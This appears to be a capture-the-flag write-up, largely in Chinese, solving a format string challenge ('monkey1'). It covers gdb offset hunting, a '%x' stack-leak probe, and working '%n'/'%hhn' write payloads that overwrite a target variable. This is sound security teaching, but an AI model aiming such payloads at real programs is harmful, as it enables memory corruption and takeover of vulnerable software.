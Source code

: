 # monkey1

## core concept

format string attack

## step

- 用 gdb 建 checkpoint in program `b program`
- 因漏洞的 stack 從 local esp 往上算, 且實際位置會動, 所以要算出 banana local var 的 pointer 的偏移量
- 根據 https://www.cnblogs.com/clover-toeic/p/3755401.html stack 架構圖, 在 program 子程序中光 tmp[1024] 就佔 256 個 %x(1byte), 手算大概 26x 出頭的位置可以得到 banana 的 pointer, 可以先利用 gdb 直接印查出該測試用執行檔的 address, 再從 26x 開始試 `%N$p` 試到顯示該 address, 其為不會變的 stack 當下偏移量, 可以用此偏移量取得該次執行的該區域變數地址在此題為 269
- 得知要更改的目標, 要有要變成的目標值, 利用 format string attack %n 語法即可改值
  edit target(example): 0xffffd084,
  target value: 0x3132000a

```
by little end:
4 + 4 + 2 = 10 寫入 p32(0xffffd084) => a
(10) + 12584 寫入 p32(0xffffd084+2) => 3132
concept:
實際寫入內容 => p32(banana)+p32(banana+2)+b"%2c%7$n%12584c%8$n" 共 8 byte
- 第 7 byte 為 p32(banana)
- 第 8 byte 為 p32(banana+2)
final 格式: b(變更目標地址存放的位置與 stack 之偏移量)+b(%目標值c%實際存儲區目標地址偏移量$n)
note: 所有值都要經過微調, 串聯後也要微調, [變更目標地址存放的位置與 stack 之偏移量] 可以用下方補充方法取得
```

補充方法

- 在 program input `AABB.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x`
- 可以看到 output `AABB.400.f7f0f5c0.f7f0ee34.0.9.0.42424141.2e78252e.252e7825.78252e78`
- 其中 4242 為 `BB` 在偏移 7
- 其中 4141 為 `AA` 在偏移 8
- 可以得知放入 target address 後, 取得其的偏移量

最終 output

`program(p32(banana)+p32(banana+2)+b"%2c%7$n%12584c%8$n")`

## note

Summary

1. 利用 %N$x dump 出 stack 中的 memory，找到要 overwrite
   的 target
2. 如果 target 在 stack 上，可以直接用 %N$n 改；如果不在，
   必須讓 target 的 address 想辦法出現在 stack 上
3. 用 %Nc 控制印出的字元數，再用 %N$hhn overwrite target

最後 payload 可能會長得像這樣：
`\xdc\xed\xbf\xbf\xdd\xed\xbf\xbf\xde\xed\xbf\xbf\xdf\xed\xbf\xbf%100
c%30$hhn%220c%31$hhn%55c%32$hhn%66c%33$hhn`

